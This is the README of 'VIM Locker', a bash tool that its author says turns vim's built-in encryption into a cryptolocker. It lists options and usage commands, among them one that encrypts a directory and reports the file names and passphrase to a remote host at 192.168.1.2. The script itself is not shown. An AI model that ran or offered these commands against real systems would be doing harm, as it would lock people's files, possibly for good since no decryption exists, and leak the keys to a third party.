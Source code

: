 # VIM Locker

Did you know vim can encrypt your files?... I didn't either! Once I found out, I knew I had weaponize it into a cryptolocker. So I did that.

## Testing support for Vi & Vim

Because sometimes you don't have vim. :(

TODO: 
* Test all options thoroughly.
* Test HOST option thoroughly.
* Probably spelling errors. Lots of them I bet.
* Stuff.
* Oh, and a decrypt option would be nice, huh? :)

## Options

```
  -H <IP>	Host ip to send encrpytion information to.
  -P <PORT>	Host port to send encrpytion information to.
  -e <PASS>	Set passphrase for file ( one is generated by default ).
  -l <FILE>	Log application actions to a file ( off by default ).
  -z		Use zip ( not great ) style encryption.
  -b		Use vim's blowfish ( good ) encryption.
  -B		Use vim's blowfish2 ( most goodiest )encryption.
  -n		Generate a new passphrase for each file.
  -v		Display version.
  -s		Silent mode.
  -h		Display this menu. 
```
## Usage

I've built this tool to be very easy to use. Hopefully.

### Typical

Typical useage to be able to cryptolock the files in a directory:

```
$ bash vim_locker.sh -d directory
```

### Report to Host

If you want to report back to a host the files/passphrase, it's pretty simple:

```
$ bash vim_locker.sh -H 192.168.1.2 -P 80 -d directory
```

### Custom Passphrase

If you would like to set a custom passphrase instead of having one generated for you.

```
$ bash vim_locker.sh -d directory -e reallystrongpassword 
```

### Help

Program should default to a help menu when no flags are specified or called with the `-h` option.

```
$ bash vim_locker.sh -h 
```

## Credits
Kent 'picat' Gruber

#### Special Thanks

Wanted to give a shotout to [zmallen](https://github.com/zmallen) for some inspriation from his [LoLLocker](https://github.com/zmallen/lollocker). See you at ISTS this year? ;)
